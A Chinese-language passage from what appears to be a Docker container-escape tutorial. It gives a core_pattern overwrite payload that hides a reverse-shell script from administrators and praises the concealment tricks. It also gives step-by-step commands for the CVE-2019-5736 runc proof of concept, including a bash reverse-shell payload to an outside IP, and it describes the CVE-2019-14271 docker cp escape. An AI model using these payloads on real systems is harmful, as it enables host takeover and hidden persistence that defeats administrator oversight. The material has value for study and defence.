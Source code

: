     ```
    overlay / overlay rw,relatime,lowerdir=/var/lib/docker/overlay2/l/TDUPJY7LZWCBS33AOAEL32VYWZ:/var/lib/docker/overlay2/l/UDBKLTSYHMCC4J7DLMAK3JUMT2:/var/lib/docker/overlay2/l/ULFSCIS7UXEVHUTW5KPOWLQOK6:/var/lib/docker/overlay2/l/YQDQOJ3EJ3KELBHK5PFFUJ7RVT,upperdir=/var/lib/docker/overlay2/edbf849399cdbcd1d74d7e112b0d548e60e0e90754e3126f8b533ab395bf1dfb/diff,workdir=/var/lib/docker/overlay2/edbf849399cdbcd1d74d7e112b0d548e60e0e90754e3126f8b533ab395bf1dfb/work 0 0
    
    ```
    
    从返回的内容中得到：workdir=/var/lib/docker/overlay2/edbf849399cdbcd1d74d7e112b0d548e60e0e90754e3126f8b533ab395bf1dfb/work

将之前的写入 Payload 的命令改为：  
echo -e "|/var/lib/docker/overlay2/edbf849399cdbcd1d74d7e112b0d548e60e0e90754e3126f8b533ab395bf1dfb/merged/tmp/.x.py \rcore" > /host/proc/sys/kernel/core_pattern

其他步骤不变。这样一来，Linux 转储机制在程序发生崩溃时就能够顺利找到我们在容器内部的 / tmp/.x.py 了。

该漏洞利用的亮点：直接搬参考资料 1

1.  payload 中使用空格加 \ r 的方式，巧妙覆盖掉了真正的｜/tmp/.x.py，这样一来，即使管理员通过 cat /proc/sys/kernel/core_pattern 的方式查看，也只能看到 core；
    
2.  /tmp/.x.py 是一个隐藏文件，直接 ls 是看不到的；
    
3.  os.remove("/tmp/.x.py") 在反弹 shell 的过程中删掉了用来反弹 shell 的程序自身。
    

### 程序漏洞导致 Docker 逃逸

#### runC 容器逃逸漏洞 CVE-2019-5736

漏洞简述：  
Docker 18.09.2 之前的版本中使用了的 runc 版本小于 1.0-rc6，因此允许攻击者重写宿主机上的 runc 二进制文件，攻击者可以在宿主机上以 root 身份执行命令。  
利用条件：  
Docker 版本 < 18.09.2，runc 版本 < 1.0-rc6，一般情况下，可通过 docker 和 docker-runc 查看当前版本情况。

利用步骤：  
下载 poc  
git clone [https://github.com/Frichetten/CVE-2019-5736-](https://github.com/Frichetten/CVE-2019-5736-)  
PoC 修改 Payload  
vi main.go  
payload = "#!/bin/bash \n bash -i >& /dev/tcp/192.168.172.136/1234 0>&1"  
编译生成 payload  
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go  
拷贝到 docker 容器中执行  
sudo docker cp ./main 248f8b7d3c45:/tmp

然后模拟管理员进入容器，就可以收到反弹 shell。

#### Docker cp 命令容器逃逸攻击漏洞 CVE-2019-14271

漏洞描述：  
当 Docker 宿主机使用 cp 命令时，会调用辅助进程 docker-tar，该进程没有被容器化，且会在运行时动态加载一些 libnss_.so 库。黑客可以通过在容器中替换 libnss_.so 等库，将代码注入到 docker-tar 中。当 Docker 用户尝试从容器中拷贝文件时将会执行恶意代码，成功实现 Docker 逃逸，获得宿主机 root 权限。  
影响版本：  
Docker 19.03.0
